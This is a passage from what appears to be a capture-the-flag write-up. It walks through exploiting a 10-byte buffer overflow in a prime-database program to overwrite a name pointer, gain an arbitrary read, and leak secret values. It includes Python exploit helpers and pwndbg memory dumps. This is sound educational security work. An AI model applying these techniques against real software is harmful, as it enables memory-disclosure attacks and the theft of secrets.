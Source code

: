 We can then leak the base address of the PIE executable:

```python
elf.address = int(bss_leak, 16) - 0x6150
print(f"PIE = {hex(elf.address)}")
```

With the base address, we can create an arbitrary write primitive. The prime entries consist of a name, a prime number, and an optional description:

```c
struct prime_ent
{
  char *m_pName;
  __int64 _0x0004;
  char prime[16];
  char description[48];
};
```

The description is stored in a 48 byte buffer. However, when editing the description of an existing prime, 58 bytes are read into the buffer:

```c
void main(EVP_PKEY_CTX *param_1){
	[...]
    printf("Description: ");
    pcVar2 = fgets(acStack_968 + CONCAT44(uStack_b24,local_b28) * 0x50, 58, stdin);
	[...]
}
```

We can use this overflow to overwrite the name of an adjacent prime entry in the database. This gives us an arbitrary read, as we can send a payload of `b"A"*48 + p64(target_address)` to entry 0's description, which overwrites entry 1's name to `p64(target_address)`. When showcasing this entry later, the program calls `printf("%s", m_pName)`. Since `m_pName` now holds the target address we supplied, `printf` begins reading bytes from that location in memory and sends them back to us.

```python
def leak_add(address):
    edit_description(b"0", b"A"*48 + p64(address))
    name_leak, _ = showcase_prime(b"1", b"3")
    leaked_prefix = name_leak.split(b":")[0]
    data = leaked_prefix[1:9].ljust(8, b"\0")
    return u64(data)
```

We use this arbitrary read to leak the values of $k$ and $X$, which are contained within the object `st`. `st` is structured as follows:

```
pwndbg> x/8gx &st
0x55f038d5d180 <st>:    0x0000000000000000      0x000055f0393152c0 <- algdata pointer
0x55f038d5d190 <st+16>: 0x0000000000000000      0x00007fa5f5e6bbe0
0x55f038d5d1a0 <k>:     0x0000000100000001      0x000055f039315440 <- k pointer
```

```
pwndbg> x/32gx 0x000055f0393152c0
0x55f0393152c0: 0x0000001000000010      0x000055f039315300 # <- X pointer
0x55f0393152d0: 0x0000000100000001      0x000055f039315390
0x55f0393152e0: 0x0000000000000001      0x0000000000000001
0x55f0393152f0: 0x0000000000000400      0x0000000000000091 # <- 0x400 = 1024 bit-size
0x55f039315300: 0xecac3f17450b1e56      0xcfd2a64548f2e35c # <- X is here
0x55f039315310: 0x9ca3c08925695bcf      0xa7a71d64ebf073cb
0x55f039315320: 0x88e98595174a6964      0x07a3f69c34ec83bc
0x55f039315330: 0x416760bd066590af      0x4d5b571b50e6a95b
0x55f039315340: 0xcdd12d48238d3608      0x8f9914b302e0967a
0x55f039315350: 0xfb0302810f366862      0xfbb371fcae55b7b7
0x55f039315360: 0x140c017107775d37      0x7d86f2f23316cc7f
```